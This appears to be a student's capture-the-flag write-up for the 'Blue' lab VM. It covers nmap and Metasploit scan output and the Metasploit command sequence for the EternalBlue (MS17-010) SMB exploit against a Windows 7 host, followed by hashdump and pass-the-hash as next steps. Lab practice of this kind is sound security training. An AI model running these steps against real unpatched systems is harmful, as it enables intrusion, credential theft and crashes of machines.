

**Blue**

 
Victim IP - 192.168.247.130 
 
 
Attacker Kali linux 2021 
 
 
 
 
 
 
 
Passive recon N/A - target is an exploitable VM 
 
 
arpscan confirm victim IP 
 
 
 
 
└─$ nmap -T4 -p- -A 192.168.247.130  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-31 20:41 EST 
Nmap scan report for 192.168.247.130 
Host is up (0.00016s latency). 
Not shown: 65526 closed tcp ports (conn-refused) 
PORT   STATE SERVICE   VERSION 
135/tcp  open msrpc    Microsoft Windows RPC 
139/tcp  open netbios-ssn Microsoft Windows netbios-ssn 
445/tcp  open microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) 
49152/tcp open msrpc    Microsoft Windows RPC 
49153/tcp open msrpc    Microsoft Windows RPC 
49154/tcp open msrpc    Microsoft Windows RPC 
49155/tcp open msrpc    Microsoft Windows RPC 
49156/tcp open msrpc    Microsoft Windows RPC 
49157/tcp open msrpc    Microsoft Windows RPC 
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows 
 
Host script results: 
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s 
| smb2-security-mode:  
|  2.1:  
|_  Message signing enabled but not required 
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: &lt;unknown&gt;, NetBIOS MAC: 00:0c:29:28:81:34 (VMware) 
| smb2-time:  
|  date: 2022-02-01T01:43:40 
|_ start_date: 2022-02-01T15:31:04 
| smb-security-mode:  
|  account_used: guest 
|  authentication_level: user 
|  challenge_response: supported 
|_ message_signing: disabled (dangerous, but default) 
| smb-os-discovery:  
|  OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1) 
|  OS CPE: cpe:/o:microsoft:windows_7::sp1 
|  Computer name: WIN-845Q99OO4PP 
|  NetBIOS computer name: WIN-845Q99OO4PP\x00 
|  Workgroup: WORKGROUP\x00 
|_ System time: 2022-01-31T20:43:40-05:00 
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 152.95 seconds 
 
 
ENUMERATION/RESEARCH 
 
135/tcp  open msrpc    Microsoft Windows RPC 
 
Windows 7 Ultimate 7601 Service Pack 1 
google &gt;&gt;&gt; eternal blue 
 
139/tcp  open netbios-ssn Microsoft Windows netbios-ssn 
metasploit &gt; serach smb version. 
auxiliary(scanner/smb/smb_version) &gt; 
 
set RHOSTS 192.168.247.130  
 
exploit 
 
msf6 auxiliary(scanner/smb/smb_version) &gt; exploit 
 
[*] 192.168.247.130:445  - SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:) (guid:{601bf57b-fb90-451d-aae6-2b24df0c6a76}) (authentication domain:WIN-845Q99OO4PP) 
[+] 192.168.247.130:445  -  Host is running Windows 7 Ultimate SP1 (build:7601) (name:WIN-845Q99OO4PP) 
[*] 192.168.247.130:   - Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed 
msf6 auxiliary(scanner/smb/smb_version) &gt;  
 
 
 
 
445/tcp  open microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) 
 
metasploit &gt; serach smb version. 
auxiliary(scanner/smb/smb_version) &gt; 
 
set RHOSTS 192.168.247.130  
 
exploit 
 
msf6 auxiliary(scanner/smb/smb_version) &gt; exploit 
 
[*] 192.168.247.130:445  - SMB Detected (versions:1, 2) (preferred dialect:SMB 2.1) (signatures:optional) (uptime:) (guid:{601bf57b-fb90-451d-aae6-2b24df0c6a76}) (authentication domain:WIN-845Q99OO4PP) 
[+] 192.168.247.130:445  -  Host is running Windows 7 Ultimate SP1 (build:7601) (name:WIN-845Q99OO4PP) 
[*] 192.168.247.130:   - Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed 
msf6 auxiliary(scanner/smb/smb_version) &gt;  
 
 
Lots of SMB related ports (also box callled blue) will continue research into SMB 
 
Google search &gt; SMB 2.1 exploit 
 
https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/ 
 
rapid 7 eternal blue 
 
Numerous articles about wana cry/eternal blue and port 445 
 
EXPLOPITATION 
 
Eternal blue (name is a dead giveaway) is the key. 
 
Following steps on rapid7 or search smb ms17_010 
msf &gt; use exploit/windows/smb/ms17_010_eternalblue 
msf exploit(ms17_010_eternalblue) &gt; show targets 
  ...targets... 
msf exploit(ms17_010_eternalblue) &gt; set TARGET &lt; target-id &gt; 
msf exploit(ms17_010_eternalblue) &gt; show options 
  ...show and set options... 
msf exploit(ms17_010_eternalblue) &gt; exploit 
 
Check options 
 
set RHOSTS to victim IP 
 
exlpoit &gt;&gt;&gt; if failed try again or check options and change the payload 
!system crash! Apparently exploit can cause system crash. 
On some systems, this module may cause system instability and crashes, such as a BSOD or a reboot. This may be more likely with some payloads.  
 
 
 
 
 
 
From here hashdump and crack or try pass the hash. This will be covered later in content. 
 
Notes &gt; manual methods are valible to try.. search github, check starts, guides and reviews to find a good exploit. Folow the instructions 
NOTE &gt; this can dos a machine. always be sure before running it. in a live test this could be a critical machine. ask first. 
 
 
